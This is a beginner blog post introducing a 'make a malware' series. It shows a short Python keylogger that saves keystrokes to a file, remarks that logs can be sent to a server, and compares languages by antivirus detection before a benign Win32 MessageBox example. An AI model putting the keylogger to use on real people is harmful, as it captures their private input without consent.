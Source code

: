 ```yaml
---
title: Intro to how to make a malware
author: 0x41ly
classes: wide
ribbon: red
date: 2021-06-22 18:00:00 +0800
header:
  teaser: 'https://i.imgur.com/o37B2mV.png'
description: How to make a malware series.
categories:
  - Exploit Development
toc: true
published: true
---
```


## Hi guys

Well, I have decided to build malware, so let's make it together.

### What is malware? 
Just a piece of code. let's have an example 
In the gaming world, how could a game detect which key
you have pressed?. Let's see this piece of code. Don't panic. we will use python for simplicity but don't expect that all time :)

```
from pynput import keyboard
def on_press_func(key):
	
	\\do something for the game
	
listener = keyboard.Listener(on_press=on_press_func)
listener.start()

```
So how can that be malware? Yes, that is KeyLogger. 
What does a KeyLogger do?. Just save what you press on the keyboard then, it sends it or whatever it does. Let's see how a KeyLogger looks like.

```
from pynput import keyboard
def on_press_func(key):
	with open('keylogs.txt', 'a') as logs:
		logs.write(str(key))
	
listener = keyboard.Listener(on_press=on_press_func)
listener.start()
```
We can then send this file to our server or wherever.
So we are here just making a program which can do whatever we went it to do.

Now, what do we need to know before we launch our coding process?
1. What kind of malware is it (Trojan, worm, virus,.etc)
2. Which protocol it will use (TCP, UDP, HTTP, HTTPS)
3. What program language you want to use

| language         | detection        | size             | performance            |      
| :----            |  :-----:          |     :-------:    |     :----:             |
| Python/Ruby      | Easy             |    Large         | Slow                   |
| Golang           | Medium           |    Large         | Medium                 |
| C/C++            | Hard             |    Small         | Fast                   |

So you are free for what you want to use. For me, I'm going to use C++ as a language. So, all we need is a c++ compiler and a VM to play with it.

Let's start with simple MsgBox. But first, we have to know some basics.
What is Win32APIs?
Alternatively referred to as the Windows API and WinAPI, Win32 is the main set of Microsoft Windows APIs used for developing 32-bit applications. These APIs are responsible for functions in the following categories:
* Administration and Management - Install, configure, and service applications or systems.
* Diagnostics - Troubleshoot application, system problems, and monitor performance.
* Graphics and Multimedia - Incorporate formatted text, graphics, audio, and video.
* Networking - Communicate between applications on different computers on a network.
* Security - Password authentication, discretionary protection for all sharable system objects, privileged access control, rights management, and security auditing.
* System Services - Gives access to computer resources and the underlying operating system, such as memory, file system, devices, processes, and threads.
* Windows User Interface - Create and manage a user interface, such as display output, prompt for user input, and support for user interaction.

So generally, you can control anything with those APIs. But how? let's try.
You can find whatever you need in Microsoft docs like [MessageBox function](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-messageboxa)

## Syntax 
```
int MessageBoxA(
  HWND    hWnd,
  LPCTSTR lpText,
  LPCTSTR lpCaption,
  UINT    uType
);
```
So it's a function with returned value of int type indicates which button the user clicked.
Our first task is making a program to show Message Box with "Hello From Nakerah" as a text with any title you want. 

```
#include <windows.h>
int APIENTRY WinMain( HINSTANCE hInst, HINSTANCE hPrev, LPSTR lpCmdLine, int nCmdShow )
{
	MessageBoxA( NULL, "Hello From Nakerah", "Nakerah NG", MB_OK );
	return 0;
}
```
Let's analyze this simple piece of code.
Well, It just includes windows.h then the mai.. what?. Where is the main function?. Don't panic. Every Windows program includes an entry-point function that is named either WinMain or wWinMain you can find more [here](https://docs.microsoft.com/en-us/windows/win32/learnwin32/winmain--the-application-entry-point)
now the second line, the [MessageBoxA](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-messageboxa) function takes four parameters: 
*  'hWnd':  which means the message box has no owner window. I have set it to NULL.
*  'lpszText': the string we wanna Msgbox to include.
*  'lpszTitle':  which is the title of the box.
*  'uType': which is buttons od Msgbox.

Let's compile. I used [DEV](https://www.bloodshed.net/) as a compiler. <\br> 
The steps are simple:
* Create a new document (project), copy then paste the above code. 
![](/assets/images/0x41ly-blog-img/cpp/0.png)
* Execute then compile
![](/assets/images/0x41ly-blog-img/cpp/2.png)
* Save it wherever you want. You will find two files, one with exe extension and another with cpp extension. Double click the exe file and 
![](/assets/images/0x41ly-blog-img/cpp/3.png) 

That's enough for today. See you :)
